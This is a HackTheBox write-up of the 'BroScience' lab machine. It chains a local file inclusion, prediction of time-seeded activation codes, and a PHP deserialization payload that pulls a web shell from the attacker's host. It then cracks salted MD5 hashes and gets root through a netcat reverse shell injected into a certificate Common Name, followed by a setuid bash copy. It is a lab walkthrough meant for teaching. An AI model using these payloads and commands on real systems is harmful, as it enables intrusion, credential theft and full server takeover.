

# BroScience (Medium)— HackTheBox Write-up

Hello everyone, welcome to this write-up where we will delve into the details of BroScience, a moderate-difficulty challenge on HackTheBox. I found this machine particularly intriguing as it required the use of techniques that were new to me, both in terms of gaining initial access and escalating privileges.


As we can see from the logo, this machine will be a Linux-based Box. With that said, let’s begin with recon.

> Note — Code snippets shall be limited to necessary parts and not be fully copied

## Reconnaissance


Upon performing a quick scan using `Rustscan`, we discovered three open ports. In this instance, I chose not to run a `Nmap` scan as I was confident that the ports in question were those of an `SSH` server and an HTTP/HTTPS endpoint (This is not good practice but in this case it wasn’t necessary). When attempting to access the IP address through a web browser, the following was displayed:


This just means we need to add this domain to our hosts file.


After we do this, we reopen the site and see the following -


The website appears to contain a collection of short posts on various exercises. I suspect that the name `BroScience` is a playful reference to the trend of gym-goers spreading unscientific advice. I am not sure but the name seems to fit in with that theme.

After exploring the site, I discovered several pages such as `user.php`, `login.php`, `register.php` and `exercise.php`, which did not seem particularly noteworthy at first glance. Therefore, I decided to conduct a quick directory and file bruteforce using `dirsearch` to see if there were any hidden pages.


Here, my attention was caught by the `includes` directory. Let’s check it out.


Upon examining the `includes` directory, I discovered several intriguing PHP files. One that stood out in particular was `db_connect.php`, as it likely contained the credentials for the database in use. Although the other files appeared to be less significant, I still opened each one to see if there were any other leads.

And luckily, I quickly stumbled upon a good lead.



My initial guess was that the page loads image files stored on the server using the `path` parameter, indicating the possibility of a local file inclusion (LFI) vulnerability. I attempted to access `/etc/passwd` using the traditional LFI method, but it was unsuccessful. I then tried URL-encoding the string passed in the path parameter, but this also did not yield any results. From my experience, however, I know that sometimes double URL-encoding can work when single encoding does not.

Turns out that was the case :)


Lovely. An LFI vulnerability is always a nice find. Although given that the server is programmed in PHP, it’s not a particularly surprising vector. This means I can now read the source code for other files on the server. I attempted to register a user on the site and it prompted me for an activation code. Without it, I was unable to log in. First, let’s attempt to register a user.


When we try to login as it is, it reports the following -


Thus, I decided to leverage the LFI we found and see what’s going on behind `login.php`.

```php
<?php
session_start();

// Check if user is logged in already
if (isset($_SESSION['id'])) {
    header('Location: /index.php');
}

// Handle a submitted log in form
if (isset($_POST['username']) && isset($_POST['password'])) {
    // Check if variables are empty
    if (!empty($_POST['username']) && !empty($_POST['password'])) {
        include_once 'includes/db_connect.php';

        // Check if username:password is correct
        $res = pg_prepare($db_conn, "login_query", 'SELECT id, username, is_activated::int, is_admin::int FROM users WHERE username=$1 AND password=$2');
        $res = pg_execute($db_conn, "login_query", array($_POST['username'], md5($db_salt . $_POST['password'])));

        if (pg_num_rows($res) == 1) {
            // Check if account is activated
            $row = pg_fetch_row($res);
            if ((bool)$row[2]) {
                // User is logged in
                $_SESSION['id'] = $row[0];
                $_SESSION['username'] = $row[1];
                $_SESSION['is_admin'] = $row[3];

                // Redirect to home page
                header('Location: /index.php');
            } else {
                $alert = "Account is not activated yet";
            }
        } else {
            $alert = "Username or password is incorrect.";
        }
    } else {
        $alert = "Please fill in both username and password.";
    }
}
?>
```

From the code, it is clear that the system checks for a column `is_activated` to determine if a user is active or not. However, it was not immediately apparent where the activation codes were generated or how the activation mechanism worked. I decided to investigate some of the PHP files in the `includes` directory to try and find more information. I suspected that `img.php` would not contain the information I was looking for. `db_connect.php`, `navbar.php` and `header.php` also seemed unlikely to be useful, so I decided to check `utils.php`.

I found a function that generates activation codes in `utils.php`. However, it was still unclear to me how I would obtain the correct code. It felt like I had missed something important. I decided to bruteforce for PHP files only using the `directory-2.3-medium` wordlist, using `feroxbuster` for this task. And I found something -

```zsh
~/Tmp > feroxbuster --url https://broscience.htb -eknr -w '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt' -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://broscience.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 📍  Follow Redirects      │ true
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        3l        7w       44c https://broscience.htb/styles/light.css
200      GET      147l      510w        0c https://broscience.htb/index.php
200      GET       45l      104w     2161c https://broscience.htb/register.php
200      GET       42l       97w     1936c https://broscience.htb/login.php
200      GET      904l     5421w   297898c https://broscience.htb/images/tricep_extensions.jpeg
200      GET       28l       71w     1322c https://broscience.htb/exercise.php
200      GET      383l     2045w   111620c https://broscience.htb/images/barbell_squats.jpeg
200      GET        1l        4w       39c https://broscience.htb/includes/img.php
200      GET       29l       70w     1309c https://broscience.htb/user.php
200      GET      147l      510w        0c https://broscience.htb/
403      GET        9l       28w      280c https://broscience.htb/.php
200      GET     3270l    20216w  1011236c https://broscience.htb/images/deadlift.png
200      GET      161l     1002w    46318c https://broscience.htb/images/seated_rows.png
200      GET     2608l    13980w   598012c https://broscience.htb/images/shoulder_press.jpeg
200      GET      122l      678w    31116c https://broscience.htb/images/bench.png
200      GET      220l     1542w    68890c https://broscience.htb/images/reverse_butterfly.jpeg
200      GET     1193l     6976w   326860c https://broscience.htb/images/dumbell_curls.jpeg
200      GET       23l      124w     2456c https://broscience.htb/images/
200      GET        0l        0w        0c https://broscience.htb/includes/db_connect.php
200      GET        5l       14w      369c https://broscience.htb/includes/header.php
200      GET        0l        0w        0c https://broscience.htb/includes/utils.php
500      GET        2l        4w       65c https://broscience.htb/includes/navbar.php
200      GET      127l      637w     9903c https://broscience.htb/manual/tr/index.html
200      GET       20l      102w     1753c https://broscience.htb/includes/
200      GET      123l      648w     9828c https://broscience.htb/manual/pt-br/index.html
200      GET      121l      605w     9416c https://broscience.htb/manual/da/index.html
200      GET      129l      701w    10325c https://broscience.htb/manual/es/index.html
200      GET      129l      566w    10124c https://broscience.htb/manual/ja/index.html
200      GET      124l      553w     9400c https://broscience.htb/manual/zh-cn/index.html
200      GET      127l      636w     9666c https://broscience.htb/manual/en/index.html
200      GET      130l      623w     9843c https://broscience.htb/manual/de/index.html
403      GET        9l       28w      280c https://broscience.htb/javascript/
200      GET      127l      643w    10996c https://broscience.htb/manual/ru/index.html
200      GET      130l      683w    10033c https://broscience.htb/manual/fr/index.html
200      GET      118l      578w     8774c https://broscience.htb/manual/ko/index.html
200      GET       14l       28w      676c https://broscience.htb/manual/
200      GET        3l        7w       41c https://broscience.htb/styles/dark.css
200      GET       17l       71w     1134c https://broscience.htb/styles/
200      GET       28l       66w     1256c https://broscience.htb/activate.php
```

Just below, I found `activate.php`. This was great news as it meant that I could now activate my newly created account.


I made an educated guess about the parameter here and was fortunate to discover that it was “code”. If that had not been the case, I could have used the previously discovered LFI vulnerability to look it up. With the endpoint in hand, I could now supply the code to activate my account. However, I first needed to generate the correct code. Thus, I investigated the code responsible for generating the codes.

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

In summary, the code sets a seed for randomization to the time at which the function runs, then selects 32 random characters and symbols from a predefined list, and appends them to `activation_code`. Unfortunately, since the code generation is time-dependent, we can’t use the account that was previously created. It’s not a major issue, I could simply create another one. However, as I registered, I also ran the code generation simultaneously. I noticed that I had approached this task in a different manner compared to the other writeups on this machine. To be more precise, I utilized the PHP snippet to print out the `activation_code` as it was generated.

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
    return $activation_code;
}
generate_activation_code()
?>
```

We used the `echo` function on the variable `activation_code` so that it prints out the code during runtime. Our next step is to register a user and run multiple iterations of this script. The script will run both before and after registering. Then, I can use all the generated activation codes to fuzz the `activate.php` endpoint. With this approach, it's highly likely that one of the codes will be the correct one.


After running multiple iterations, we were able to narrow down the possible activation codes to around 49. Now, we will try to fuzz the `activate.php` endpoint with these values.

```zsh
~/Tmp > ffuf -u 'https://broscience.htb/activate.php?code=FUZZ' -w act_codes1 -timeout 100 -t 100 -fl 28

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://broscience.htb/activate.php?code=FUZZ
 :: Wordlist         : FUZZ: act_codes1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 100
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 28
________________________________________________

:: Progress: [49/49] :: Job [1/1] :: 26 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

After running this, we should be able to log in (this is a hit-and-miss method, so I gave a delay between pre-registration, registration, and post-registration. In case it doesn’t work, I would create another account and try again).


And I was able to log in. I discovered a new feature on the site, the ability to switch between light and dark themes. It appeared that the `swap_theme.php` file was responsible for this functionality. Since there were no other notable features, I decided to examine the source code of `swap_theme.php` to see if there were any vulnerabilities or useful information.

```php
<?php
session_start();

// Check if user is logged in already
if (!isset($_SESSION['id'])) {
    header('Location: /index.php');
}

// Swap the theme
include_once "includes/utils.php";
if (strcmp(get_theme(), "light") === 0) {
    set_theme("dark");
} else {
    set_theme("light");
}

// Redirect
if (!empty($_SERVER['HTTP_REFERER'])) {
    header("Location: {$_SERVER['HTTP_REFERER']}");
} else {
    header("Location: /index.php");
}
```

Interesting. I found that some functions from `utils.php` are being used in this file. We had already examined `utils.php` previously when we were looking for the activation code generation. Let's take a closer look at the code responsible for the theme changes.

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

Lots of things going on here. In short, I found that a cookie called `user_prefs` is vulnerable to a deserialization attack. I remembered that the `unserialize()` function takes a single serialized variable and converts it back into a PHP value from PHP's manual, and immediately realized that this vulnerability is similar to the deserialization attacks that can occur in Java and Python. I had never encountered this type of vulnerability in PHP before, so it was new to me to learn.

In this case, an object from the class `UserPrefs` is serialized, then base64 encoded, and set as a cookie. This same cookie is then used for deserialization to obtain the current theme's details. It was clear that this cookie would be our entry point.

The `AvatarInterface` class features a save() function in the `__wakeup()` public function. If we create a serialized string that points `tmp` to a PHP shell we create and imgPath to a location in `/var/www/html`, we can access our shell from the site itself.

```php
<?php
class Avatar {
public $imgPath;

public function __construct($imgPath) {
    $this->imgPath = $imgPath;
}

public function save($tmp) {
    $f = fopen($this->imgPath, "w");
    fwrite($f, file_get_contents($tmp));
    fclose($f);
}
}

class AvatarInterface {
public $tmp;
public $imgPath;

public function __wakeup() {
    $a = new Avatar($this->imgPath);
    $a->save($this->tmp);
}
}

$payload = new AvatarInterface();
$payload->imgPath = "/var/www/html/rev.php";
$payload->tmp = "http://10.10.16.3/phpshell.php";

$payload = base64_encode(serialize($payload));

echo $payload;
?>
```

Here, I used the same PHP code as before but with a slight modification. I created an object myself and set the variables to the directories and endpoints I desired. The `phpshell.php` file will be hosted on my system on a temporary python HTTP server, and will be transported to `/var/www/html` as `rev.php`. I then serialized and base64 encoded the string to use in the cookie.


It should look something like the stuff above. We do all the steps we mention and the results are the following -


We should be able to run `rev.php` directly and get a working shell.


Very cool.

I tried looking for `user.txt` in one of the user directories in `/home` and it seems that I couldn’t access it as `www-data`.

I know that `bill` is a user on the site and must have a password. We can check the PostgreSQL server for password hashes and crack them.

If you remember `db_connect.php`, we can pull it up using the LFI we found.

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```

Awesome. We have the user, database name and password. We also seem to have a salt here (Literally NaCL. Funny). This hints to me that, the hashes are probably salted. We should keep that in mind. Let’s try to view the tables.

```zsh
(remote) www-data@broscience:/home/bill$ psql -h localhost -p 5432 -U dbuser -d broscience -W
Password:
psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience-> \dt
           List of relations
 Schema |   Name    | Type  |  Owner
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres
(3 rows)
```

The passwords are most likely in `users` so let’s check that.

```zsh
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
(5 rows)
```

Now we have all the hashes. Since we are only interested in `bill`, we solely crack his password to save some time (Although I did crack others).

```zsh
~/Tmp > cat hash                                                                                                                             10s root@kali 02:10:19 AM
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 13edad4932da9dbb57d9cd15b66ed104:NaCl
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
~/Tmp > hashcat -a 0 hash /usr/share/wordlists/rockyou.txt -m 20 --show                                                                          root@kali 02:10:25 AM
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```

Here I added the salt `NaCl` for hashcat to work with and here `-m 20` represents the `md5($salt,$pass)` mode. Now, we can use this to `su` as `bill` and get `user.txt`.

```zsh
(remote) www-data@broscience:/home/bill$ su bill
Password:
bill@broscience:~$ cat user.txt
4c1XXXXXXXXXXXXXXXXXXXXXXXX11671
bill@broscience:~$
```

Time for root. Root is also pretty interesting. After running l and finding nothing much, my next step is usually to just run `PsPy` and see if I missed out on some regularly running processes.

```zsh
(remote) bill@broscience:/home/bill$ ./pspy64s -r /usr /tmp /etc /home /var /opt
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/01/23 02:16:00 CMD: UID=0    PID=1      | /sbin/init
2023/01/23 02:16:01 CMD: UID=0    PID=25633  | /usr/sbin/CRON -f
2023/01/23 02:16:01 CMD: UID=0    PID=25635  | /bin/bash /root/cron.sh
2023/01/23 02:16:01 CMD: UID=0    PID=25634  | /bin/sh -c /root/cron.sh
2023/01/23 02:16:01 CMD: UID=0    PID=25637  | /bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt
2023/01/23 02:16:01 CMD: UID=0    PID=25636  | timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
```

Look at the last two lines (There was more output but it’s omitted). A script called `renew_cert.sh` runs as root on a cert called `broscience.crt`. Let’s take a look at this script.

_Sadly, `pspy` wasn’t running without the `-r` flag. I am not sure why it was needed since the same directories without `-r` work with `-r`. Seemed like an issue with the system itself._

```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

```zsh
(remote) bill@broscience:/home/bill$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /home/bill/Certs/broscience.crt -days 1
Generating a RSA private key
.++++
..++++
writing new private key to '/tmp/temp.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(nc -e /bin/bash 10.10.16.3 1235)
Email Address []:
```

```zsh
~/Tmp > rlwrap nc -nlvp 1235                                                                                                               2m 4s root@kali 02:26:45 AM
listening on [any] 1235 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.195] 33366
cat /root/root.txt
444e2232dXXXXXXXXXXXXXXXXXXXXX73f1
```

The reverse shell you get with this method breaks off very fast. You can instead do something like

`cp /bin/bash /dev/shm/; chown root:root /dev/shm/bash; chmod +s /dev/shm/bash`

to get a more stable shell.

I hope you enjoyed this read. Thanks for reading :))).
